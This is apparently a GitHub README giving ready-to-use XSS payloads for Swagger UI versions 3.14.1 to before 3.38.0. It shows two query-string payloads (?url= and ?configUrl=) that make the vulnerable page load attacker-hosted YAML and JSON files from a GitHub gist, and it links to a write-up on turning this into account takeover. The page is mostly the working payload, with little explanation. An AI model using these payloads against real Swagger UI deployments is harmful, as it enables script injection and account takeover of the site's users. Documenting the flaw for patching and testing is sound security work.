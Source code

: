# Swagger UI >=3.14.1 < 3.38.0 XSS payload

- Swagger UI version affected: `>=3.14.1 < 3.38.0`

## Payloads

### `url`
`?url=https://gist.githubusercontent.com/VictorNS69/9d1685893edd90d37a222ffd9a604a08/raw/5a6145ed1b545dfd99c577a1bccb226c832cd26d/xss3.yaml`

### `configUrl`

`?configUrl==https://gist.githubusercontent.com/VictorNS69/9d1685893edd90d37a222ffd9a604a08/raw/5a6145ed1b545dfd99c577a1bccb226c832cd26d/config.json`

**More info at**: https://www.vidocsecurity.com/blog/hacking-swagger-ui-from-xss-to-account-takeovers/
